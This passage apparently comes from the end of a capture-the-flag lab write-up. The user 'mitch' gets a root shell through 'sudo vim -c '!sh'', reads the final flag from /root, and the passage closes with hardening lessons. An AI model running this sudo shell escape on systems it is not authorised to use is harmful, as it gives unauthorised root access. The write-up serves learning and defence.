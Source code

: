 So we see the user `mitch` can run `vim`. Let’s run `vim` to escalate our privilege via a bash shell.

```console
$ sudo vim -c '!sh'

# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
#
```

Now we can navigate to the root directory and retrieve the final flag.

```console
# cd /root
# ls
root.txt
# cat root.txt
W3ll d0n3. You made it!
#
```

## Conclusion
---

So what can we learn from this?

- We get a feel for how CTFs work and what flags are
- Make sure the system and services are up to date
- Enforce strong passwords
- Be aware of binaries that can be executed as system or root
